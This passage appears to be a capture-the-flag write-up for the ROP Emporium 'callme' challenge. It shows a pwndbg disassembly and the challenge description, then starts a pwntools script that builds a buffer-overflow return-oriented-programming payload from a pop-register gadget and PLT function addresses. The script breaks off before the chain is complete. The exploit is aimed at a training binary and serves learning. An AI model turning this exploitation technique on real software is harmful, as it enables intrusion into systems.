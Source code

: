 ```bash
   0x00000000004008f3 <+1>:     mov    rbp,rsp
   0x00000000004008f6 <+4>:     mov    edx,0x6
   0x00000000004008fb <+9>:     mov    esi,0x5
   0x0000000000400900 <+14>:    mov    edi,0x4
   0x0000000000400905 <+19>:    call   0x4006f0 <callme_three@plt>
   0x000000000040090a <+24>:    mov    edx,0x6
   0x000000000040090f <+29>:    mov    esi,0x5
   0x0000000000400914 <+34>:    mov    edi,0x4
   0x0000000000400919 <+39>:    call   0x400740 <callme_two@plt>
   0x000000000040091e <+44>:    mov    edx,0x6
   0x0000000000400923 <+49>:    mov    esi,0x5
   0x0000000000400928 <+54>:    mov    edi,0x4
   0x000000000040092d <+59>:    call   0x400720 <callme_one@plt>
   0x0000000000400932 <+64>:    mov    edi,0x1
   0x0000000000400937 <+69>:    call   0x400750 <exit@plt>
End of assembler dump.

pwndbg> disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret
End of assembler dump.
```

This is what description says:

You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

This is a simple challenge:

```python
from pwn import *

# --------------------------------------------------
# Step 1: Start the vulnerable binary
io = process("./callme")

# --------------------------------------------------
# Step 2: Define ROP gadget address
# This gadget will let us control:
#   - RDI (1st argument)
#   - RSI (2nd argument)
#   - RDX (3rd argument)
# via: pop rdi; pop rsi; pop rdx; ret
rop_gadgets = p64(0x40093c)

# --------------------------------------------------
# Step 3: Define function addresses
# These are the target functions we need to call in order,
# each with the same 3 arguments
callme_one   = p64(0x400720)
callme_two   = p64(0x400740)
callme_three = p64(0x4006f0)

# --------------------------------------------------
# Step 4: Create initial padding to overflow the buffer
# 40 bytes to overflow up to saved RIP
payload = b"A" * 40

# --------------------------------------------------
```